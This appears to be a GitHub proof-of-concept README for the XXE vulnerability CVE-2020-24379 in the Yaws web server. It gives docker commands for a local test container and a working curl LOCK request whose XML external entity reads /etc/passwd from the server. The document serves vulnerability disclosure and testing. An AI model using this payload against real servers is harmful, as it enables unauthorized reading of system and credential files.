 # XXE in Yaws web server (CVE-2020-24379)

## Proof of concept

Build test image:

`docker build -t vulnbe/yaws-pocs:xxe-dav-mod -f Dockerfile .`

and/or

Run container `docker run --rm -d -i -p 127.0.0.1:8000:8080 vulnbe/yaws-pocs:xxe-dav-mod`

Then run:

```xml
curl -i -s -k -X LOCK http://localhost:8000/ -H 'Timeout: Second-1' \
  --data-binary @- << EOF
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "file:///etc/passwd">
]>
<d:lockinfo xmlns:d="DAV:">
  <d:lockscope><d:exclusive/></d:lockscope>
  <d:locktype><d:write/></d:locktype>
  <d:owner>
  <d:href><r>&sp;</r></d:href>
  </d:owner>
  </d:lockinfo>
EOF
```

## Credit

Alexey Pronin ([@vulnbe](https://twitter.com/vulnbe))

## References

* [Vulnerability analysis](https://vuln.be/post/yaws-xxe-and-shell-injections/)
* [Yaws on github](https://github.com/erlyaws/yaws)
* [CVE-2020-24379](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24379)
* [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)
